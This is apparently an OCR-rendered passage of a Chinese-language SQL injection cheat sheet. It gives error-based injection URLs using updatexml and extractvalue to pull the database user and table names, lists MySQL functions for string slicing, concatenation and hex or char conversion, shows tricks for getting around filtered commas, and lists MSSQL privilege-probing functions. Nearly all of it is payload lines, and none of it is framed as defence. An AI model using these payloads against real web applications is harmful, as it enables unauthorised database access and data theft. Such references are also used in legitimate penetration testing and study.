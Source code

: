 	1. /1.php?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))  
	2. /1.php?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));  
5.附加函数记录  
可运用的sql函数&关键字：  
MySQL：  
>	union distinct  
>	union distinctrow  
>	procedure analyse()  
>	updatexml()  
>	extracavalue()  
>	exp()  
>	ceil()  
>	atan()  
>	sqrt()  
>	floor()  
>	ceiling()  
>	tan()  
>	rand()  
>	sign()  
>	greatest()  

字符串截取函数

>	Mid(version(),1,1)  
>	Substr(version(),1,1)  
>	Substring(version(),1,1)  
>	Lpad(version(),1,1)  
>	Rpad(version(),1,1)  
>	Left(version(),1)  
>	reverse(right(reverse(version()),1)  

字符串连接函数

>	concat(version(),'|',user());  
>	concat_ws('|',1,2,3)  
  
字符转换

>	Char(49)  
>	Hex('a')  
>	Unhex(61)  

过滤了逗号
(1)limit处的逗号：
>	limit 1 offset 0

(2)字符串截取处的逗号
mid处的逗号：

>	mid(version() from 1 for 1)  

MSSQL：

>	IS_SRVROLEMEMBER()  
>	IS_MEMBER()  
>	HAS_DBACCESS()  
>	convert()  
>	col_name()  
>	object_id()  
>	is_srvrolemember()  
>	is_member()  
